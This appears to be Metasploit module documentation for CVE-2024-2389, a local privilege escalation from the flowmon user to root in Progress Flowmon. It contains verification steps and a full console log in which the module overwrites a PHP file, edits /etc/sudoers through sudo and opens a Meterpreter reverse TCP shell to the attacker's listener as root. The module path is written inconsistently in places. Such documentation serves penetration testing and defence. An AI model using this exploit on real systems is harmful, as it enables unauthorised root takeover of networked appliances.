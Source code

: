## Vulnerable Application
Progress Flowmon up to at least version 12.3.2 is vulnerable to local privilege escalation from the
`flowmon` user to `root`. This is possible due to the
flowmon user being able to run several commands with
`sudo`. This module exploits the ability to overwrite a
PHP file and execute it with `sudo` granting full `sudo`
permissions to the `flowmon` user and elevating the
shell to a root shell.

For more details on the vulnerability:
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/ (privesc methods)

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is avaiable in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud
## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `flowmon` user
1. Do: `use exploits/linux/local/pprogress_flowmon_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### Flowmon 12.2

```
msf6 exploit(linux/local/progress_flowmon_sudo_privesc_2024) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  5         meterpreter x64/linux  flowmon @ localhost.localdomain.localdomain  192.168.2.23:4444 -> 192.168.2.26:38328 (192.168.2.26)

msf6 exploit(linux/local/progress_flowmon_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_flowmon_sudo_privesc_2024):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION       -1               yes       The session to run this module on
   WRITABLE_DIR  /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.23     yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_flowmon_sudo_privesc) > run

[*] Started reverse TCP handler on 192.168.2.23:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 2 indicators this is a Progress Flowmon product
[!] The service is running, but could not be validated.
[*] Saving payload as /tmp/.fovaiiazfuhl
[*] Overwriting /var/www/shtml/index.php with payload
[*] Executing sudo to elevate privileges
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.26
[+] Deleted /tmp/.fovaiiazfuhl
[*] Cleaning up addition to /etc/sudoers
[*] Meterpreter session 9 opened (192.168.2.23:5555 -> 192.168.2.26:33408) at 2024-05-23 16:46:10 -0400
[*] Restoring /var/www/shtml/index.php file contents...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.102.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
